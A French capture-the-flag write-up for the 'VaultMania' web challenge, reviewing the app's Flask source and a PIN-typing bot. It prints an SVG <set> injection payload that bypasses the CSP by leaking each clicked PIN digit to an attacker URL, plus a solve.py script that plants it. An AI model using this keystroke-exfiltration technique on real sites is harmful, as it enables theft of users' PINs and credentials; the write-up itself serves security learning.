

# VaultMania

**Auteur :** [Mika](https://x.come/bWlrYQ)  
**Énoncé :**  


Ce nouveau service de coffres forts sécurisés a l'air très sympathique... Essayez de voler le contenu du coffre de l'utilisateur premium, dont la surveillance est assurée par un gardien des plus coriaces.
**Difficulé :** Très Difficile
**Code Source :** Oui

> Résumé : l'objectif de ce challenge était d'exploiter une injection HTML permettant de sniffer le PIN des autres utilisateurs déverrouillant leur propre coffre à l'aide d'un objet SVG malicieux qui contournait la Content Security Policy en oplace 

## Découverte de l'application

Cette application propose un système de coffres forts à la demande, protégés par un PIN. 


Sur la page principale sont listés les coffres avec les options permettant d'en créer de nouveaux ou déverrouiller les existants : 


En cliquant sur le bouton déverrouiller il est possible d'ouvrir un coffre en spécifiant le bon PIN avec un paneau numérique : 



Une fois l'accès au coffre obtenu, une interface permet d'y ajouter/supprimer des entrées : 


## Analyse du code source
Le code source est fourni pour ce challenge, nous allons donc pouvoir l'analyser en
### Serveur
#### CSP 
Une CSP très stricte est en place au niveau du serveur, ce qui limite drastiquement les possibilités d'XSS:

`app/src/server.py`
```py
@app.before_request
def nonce():
    app.jinja_env.globals['nonce'] = token_hex(32)

@app.after_request
def security_headers(response):
    nonce = app.jinja_env.globals['nonce']
    response.headers['Content-Security-Policy'] = f"base-uri 'none'; script-src 'strict-dynamic' 'nonce-{nonce}' 'unsafe-inline' https: http: ; base-uri 'none'; child-src 'none'; connect-src 'self'; font-src 'self'; form-action 'self'; frame-ancestors 'none'; frame-src 'none'; style-src 'nonce-{nonce}'; object-src 'none';"
    return response
```

#### Rate Limiting
L'endpoint `/unlock` possède une protection contre le brute-force avec un rate-limiting assez strict de 10 requêtes/minute, ce qui empêche de trouver 'par inadvertance' le PIN de quelconque coffre fort. 

`app/src/server.py`
```py
limiter = Limiter(
    get_remote_address,
    app=app,
    storage_uri="memory://",
)

# [...]

@app.route('/unlock', methods=['POST'])
@limiter.limit("10 per minute")
def unlock():
    if not request.form['vaultId'] or not request.form['pinCode']:
        flash("Tous les champs sont requis !", "error")
        return redirect(url_for('vaults'))

    if not Vaults.query.filter_by(id=request.form['vaultId']):
        flash("Ce coffre n'existe pas.", "error")
        return redirect(url_for('vaults'))
    
    vault = Vaults.query.get(request.form['vaultId'])

    if not vault.check_pin_code(request.form['pinCode']):
        flash("Code PIN invalide !", "error")
        return redirect(url_for('vaults'))

    login_user(vault)
    flash("Coffre dévérrouillé avec succès", "success")
    return redirect(url_for('vault'))
```
#### Rendu non-sécurisé avec Jinja2 
Le moteur de rendu utilisé sur cette application est Jinja2, toutes les entrées utilisateur stockées en base de données sont rendues sans aucune protection à l'aide du mot clé `safe` ce qui constitue un risque pour la sécurité mais à priori mitigé par la CSP :

`app/src/templates/vaults.html`
```html
<div class="card">
    <div class="card-header d-flex justify-content-between align-items-center">
        <span>Vault n°{{ vault.id|safe }}</span>
        
        <span class="badge bg-warning text-dark">Premium</span>
        
    </div>
    <div class="card-body">
        <h5 class="card-title">{{ vault.name|safe }}</h5>
    </div>
</div>
```

`app/src/templates/vault.html`
```html
<h2 class="text-center">Bienvenue propriétaire du coffre n°{{ vault.id|safe }} !</h2>


<div class="card mb-3">
    <div class="card-header d-flex justify-content-between align-items-center">
        <span>Entry n°{{ entry.id|safe }}</span>
        <span class="badge bg-danger text-dark"><a href="{{url_for('delete_entry', entry_id=entry.id)}}" id="linkDelete">Delete</a></span>
    </div>
    <div class="card-body">
        <h5 class="card-title">{{ entry.entry_type|safe }}</h5>
        <p class="card-text">{{ entry.value|safe }}</p>
        
        <p class="card-text">{{ entry.note|safe }}</p>
        
    </div>
</div>
```

#### Flag
Le flag se situe dans le coffre fort de l'administrateur, créé au démarrage de l'application, il est donc nécessaire d'en récupérer l'accès.

`app/src/lib/database.py`
```py
def create_admin_vault():
    if Vaults.query.filter_by(name="My Super Secret Admin Vault").first():
        return
   
    vault = Vaults(name="My Super Secret Admin Vault", is_paying_customer=True)
    vault.set_pin_code(environ.get("VAULT_PIN", "1234"))
    db.session.add(vault)
    db.session.commit()

    admin_vault = Vaults.query.filter_by(name="My Super Secret Admin Vault").first()

    entry = VaultEntries(
        vault_id=admin_vault.id, 
        entry_type="FLAG", value=environ.get("FLAG", "BZHCTF{PLACEHOLDER_FLAG}"), 
        note="Well done! You pwned my vault app >:("
    )

    db.session.add(entry)
    db.session.commit()
```

### Client
Côté client, le panneau numérique permettant de 'taper' son code pin est généré de la façon suivante : 

`app/src/templates/vaults.html`
```html
<div class="text-center">
    <div id="pinPad" class="d-grid gap-2 mx-auto">
        
        <button type="button" class="btn btn-outline-primary pin-btn" id="pin{{i|safe}}">{{i|safe}}</button>
        
        <button type="button" class="btn btn-danger" id="clearPin">⌫</button>
        <button type="button" class="btn btn-outline-primary pin-btn" id="pin0">0</button>
        <button type="submit" class="btn btn-success">Unlock</button>
    </div>
</div>
```

Une classe `pin-btn` est ajoutée à chaque 'bouton' correspondant à un des 10 chiffres du panneau, il y a également l'id correspondant `pinX` avec X le chiffre qui est ajouté.

Afin de correctement récupérer le code PIN, le code JavaScript suivant est en place : 

`app/src/static/js/unlock.js`
```js
document.addEventListener("DOMContentLoaded", function () {
    const pinPadButtons = document.querySelectorAll(".pin-btn");
    const pinCodeInput = document.getElementById("pinCode");

    // [...]

    let pin = "";

    // [...]

    pinPadButtons.forEach(button => {
        button.addEventListener("click", function () {
            if (pin.length < 10) { 
                pin += button.innerText;
                updatePinDisplay();
            }
        });
    });

    // [...]

    updatePinDisplay = function () {
        pinCodeInput.value = pin;
    };
});

```

À chaque clique sur un des chiffres, la valeur de celui-ci sera ajoutée à l'input du formulaire permettant d'envoyer le PIN à l'endpoint `/unlock`

### Bot
La page d'accueil de la plateforme précise ceci : 

```
Nous avons également une offre payante en bêta-test pour le moment avec un système de gardien qui passe vérifier toutes les 2 minutes que rien n'a été volé dans votre coffre (en le dévérouillant avec votre PIN), grâce à un inventaire détaillé qui peut nous être laissé.
```

L'un des coffres possède cette option, le 'bot' joue ici le rôle du 'gardien' venant déverrouiller ce coffre. 

`bot/src/bot.js`
```js
async function visit_vault() {
    let url = process.env.VAULTMANIA_URL || "http://vaultmania:8000/vaults";
    let pin = process.env.VAULT_PIN || "1234";
    try {
        console.log(`Launching Puppeteer to visit: ${url}, with PIN: ${pin}`);

        // [..]

        const page = await browser.newPage();
        await page.setViewport({ width: 1920, height: 1080 });

        await page.goto(url, { waitUntil: 'domcontentloaded' });

        await page.waitForSelector("#openUnlockModal");
        await page.click("#openUnlockModal");

        await page.waitForSelector("#unlockVaultModal", { visible: true });

        await page.waitForSelector("#vaultId");
        await page.select("#vaultId", await page.evaluate(() => {
            let select = document.querySelector("#vaultId");
            return select.options.length > 1 ? select.options[1].value : null;
        }));

        for (let digit of pin) {
            await page.click(`#pin${digit}`);
            await new Promise(resolve => setTimeout(resolve, 1000));
        }

        await page.click("#unlockVaultForm button[type=submit]");

        await new Promise(resolve => setTimeout(resolve, 1000));

        await browser.close();
    } catch (error) {
        console.error(`Error visiting ${url}:`, error);
    }
}
```

Le gardien agit donc parfaitement comme un humain utilisant l'interface utilisateur classique. 

## Injection HTML et extraction du PIN

Lorsque l'on créé un coffre, il est donc possible dû à l'usage de `{{ vault.name|safe }}` d'injecter de l'HTML qui ne sera pas traité par Jinja (remplacement des caractères par leur équivalent 'encodé', par exemple : '&' devient '&amp', etc...) et donc rendu comme étant de l'HTML par le navigateur. 

Quoiqu'il en soit, ici nous n'avons pas besoin d'une XSS pour récupérer le PIN tapé par le gardien. Un élément 'non limité' par la CSP étudiée précedemment est l'absence de politique conçernant [`img-src`](https://developer.mozilla.org/fr/docs/Web/HTTP/Headers/Content-Security-Policy/img-src).

La charge HTML suivante permet de sniffer les clics sur un élément HTML précis : 

```html
<svg>
    <image href="/">
        <set begin="pin1.click" attributeName=href to="https://blog.bwlryq.net/?pins=1" dur="0.1s"></set>
    </image>
</svg>
```

Nous injectons une balise `<svg>` contenant une balise `` qui elle-même contient un `<set>`. Pour rappel, `<set>` ne peut être utilisé que dans le contexte d'une balise `<svg>`, d'où la présence de celle-ci. La partie intéressante ici concerne le `<set>`, nous allons donc le décomposer. 

```html
<set begin="pin1.click" attributeName=href to="https://blog.bwlryq.net/?pins=1" dur="0.1s"></set>
```

- `begin="pin1.click"` -> déclenche le `set` au clic sur un élément ayant pour id `pin1`. 
- `attributeName=href` -> l'attribut à qui doit être changé dans l'élément svg par set
- `to="https://blog.bwlryq.net/?pins=1"` -> la nouvelle valeur de l'attribut, ici l'endpoint de l'attaquant
- `dur="0.1s"` -> la durée d'effet du set

*Note: la durée du set n'est pas essentielle pour la réussite de l'attaque, cependant pour les navigateurs basés sur Firefox, sans cette durée, si l'utilisateur appuie plusieurs fois sur le même élément, seul le premier appui est enregistré. L'attribut dur permet donc de réinitaliser le set et de permettre plusieurs appuis même sur un navigateur basé sur Firefox*

Une fois l'élément ayant pour id `pin1` cliqué, la valeur de `href` pour l'image (qui imbrique `set`) présente dans le svg est changée, ce qui force le navigateur à charger cette image, et donc à envoyer l'information du numéro de bouton cliqué à l'attaquant.

En se basant sur tout ceci, il est possible de créer une charge dans le nom du vault qui va enregistrer tous les clics sur les 10 chiffres du panel :


## Automatisation et flag 
Le script [solve.py](solve.py) suivant, automatise l'exploitation de la vulnérabilité en créant un vault malveillant : 

```py
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
# Author: Mika

from requests import post
from sys import argv

if len(argv) < 3:
    print(f"Usage: {argv[0]} <chall_url> <listener_link>")
    exit()

chall = argv[1]
listener = argv[2]

payload_base = f'<svg><image href="/"><set begin="pinPIN_NUM.click" attributeName=href to="{listener}/?pin=PIN_NUM"></set></image></svg>'
payload_final = ''.join([payload_base.replace('PIN_NUM', str(i)) for i in range(10)])

print(f"[*] Payload:\n {payload_final} \n {'-'*50}")
ans = input("[?] Ready to send payload? (y/n): ")
if ans.lower() != 'y':
    print("[!] Exiting...")
    exit()

print("[*] Sending payload...")
post(chall + '/create', data={'vaultName': payload_final, 'pinCode': '1337'})
```


Nous pouvons maintenant ouvrir le vault 1 avec le pin reçu : 

